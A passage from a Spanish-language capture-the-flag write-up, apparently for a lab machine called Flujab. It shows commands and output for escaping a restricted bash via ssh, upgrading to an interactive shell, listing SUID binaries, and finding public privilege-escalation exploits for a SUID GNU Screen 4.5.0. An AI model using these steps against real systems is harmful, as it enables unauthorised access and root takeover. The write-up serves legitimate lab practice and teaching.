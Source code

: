 Estoy dentro de una ```restricted bash```

```null
sysadm@flujab:~$ cd ..
-rbash: cd: restricted
```

Para evitarlo, puedo ejecutar el comando con ssh para spawnear una ```bash```

```null
ssh sysadm@10.10.10.124 bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
sysadm@flujab:~$ ^Z
zsh: suspended  ssh sysadm@10.10.10.124 bash
❯ stty raw -echo; fg
[1]  + continued  ssh sysadm@10.10.10.124 bash
                                              reset xterm
sysadm@flujab:~$ export TERM=xterm
sysadm@flujab:~$ export SHELL=bash
sysadm@flujab:~$ stty rows 55 columns 209
```

# Escalada

El binario ```screen``` es SUID

```null
sysadm@flujab:/$ find \-perm \-4000 2>/dev/null 
./usr/lib/openssh/ssh-keysign
./usr/lib/dbus-1.0/dbus-daemon-launch-helper
./usr/lib/eject/dmcrypt-get-device
./usr/local/share/screen/screen
./usr/bin/chsh
./usr/bin/newgrp
./usr/bin/passwd
./usr/bin/chfn
./usr/bin/screen
./usr/bin/gpasswd
./usr/bin/sudo
./bin/su
./bin/umount
./bin/mount
./bin/ping
./bin/fusermount
```

```null
sysadm@flujab:/$ screen --version
Screen version 4.05.00 (GNU) 10-Dec-16
```

Existe un exploit público para esta versión

```null
searchsploit GNU screen | grep -i privilege
GNU C Library 2.x (libc6) - Dynamic Linker LD_AUDIT Arbitrary DSO Load Privilege Escalation                                                                                    | linux/local/15304.txt
GNU Screen 4.5.0 - Local Privilege Escalation                                                                                                                                  | linux/local/41154.sh
GNU Screen 4.5.0 - Local Privilege Escalation (PoC)                                                                                                                            | linux/local/41152.txt
```
